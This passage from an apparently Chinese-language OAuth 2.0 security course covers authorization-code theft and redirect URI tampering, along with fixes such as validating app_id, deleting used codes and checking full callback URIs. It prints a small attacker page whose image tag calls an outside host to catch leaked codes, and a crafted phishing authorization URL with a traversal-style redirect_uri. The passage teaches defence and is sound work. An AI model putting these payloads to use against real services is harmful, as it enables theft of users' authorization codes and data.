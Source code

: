 所以，在开放平台环境下，我们就要更加重视与防范数据的越权问题。

以上，CSRF攻击、XSS攻击、水平越权这三种攻击类型，它们都属于OAuth 2.0面临的互联网非常常见的通用攻击类型。而对于其他的互联网攻击类型，如果你想深入了解的话，可以看一下这篇[安全案例回顾](https://wooyun.js.org/drops/OAuth%202.0%E5%AE%89%E5%85%A8%E6%A1%88%E4%BE%8B%E5%9B%9E%E9%A1%BE.html)的文章。

接下来，我们再看两种OAuth 2.0专有的安全攻击，分别是授权码失窃、重定向URI被篡改。

## 授权码失窃

我们举个例子，先来学习授权码失窃这个场景。

如果第三方软件A有合法的app_id和app_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

如果有一个用户G对第三方软件B，比如极客时间，进行授权并产生了一个授权码codeB，但并没有对攻击者软件A授权。此时，软件A是不能访问用户G的所有数据的。但这时，如果软件A获取了这个codeB，是不是就能够在没有获得用户G授权的情况下访问用户G的数据了？整个过程如下图所示。

<img src="https://static001.geekbang.org/resource/image/7d/7b/7d464d5a0c49a77862fef10f77cf057b.png" alt="" title="图5 授权码失窃攻击过程">

**这时问题的根源就在于两点：**

- 授权服务在进行授权码校验的时候，没有校验app_id_B；
- 软件B（也就是极客时间）使用过一次codeB的值之后，授权服务没有删除这个codeB；

看到这里，通过校验app_id_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是OAuth 2.0中因重定向URI校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向URI被篡改。

## 重定向URI被篡改

有的时候，授权服务提供方并没有对第三方软件的回调URI做完整性要求和完整性校验。比如，第三软件B极客时间的详细回调URI是`https://time.geekbang.org/callback`，那么在完整性校验缺失的情况下，只要以`https://time.geekbang.org`开始的回调URI地址，都会被认为是合法的。

此时，如果黑客在`https://time.geekbang.org/page/`下，创建了一个页面**hacker.html**。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

```
&lt;html&gt;
&lt;img src =&quot;https://clientA.com/catch&quot;&gt;
&lt;/html&gt;

```

好了，我们继续看下接下来的攻击流程：

<img src="https://static001.geekbang.org/resource/image/04/41/04d71e6a8d32fe8b516db7e7424bf141.png" alt="" title="图6 重定向URI被篡改的攻击过程">

首先，黑客将构造的攻击页面放到对应的hacker.html上，也就是`https://time.geekbang.org/page/hacker.html`上 ，同时构造出了一个新的重定向URI，即`https://time.geekbang.org/page/welcome/back.html../hacker.html`。

然后，黑客利用一些钓鱼手段诱导用户，去点击下面的这个地址：

```
https://oauth-server.com/auth?respons_type=code&amp;client_id=CLIENTID&amp;redirect_uri=https://time.geekbang.org/page/welcome/back.html../hacker.html

```
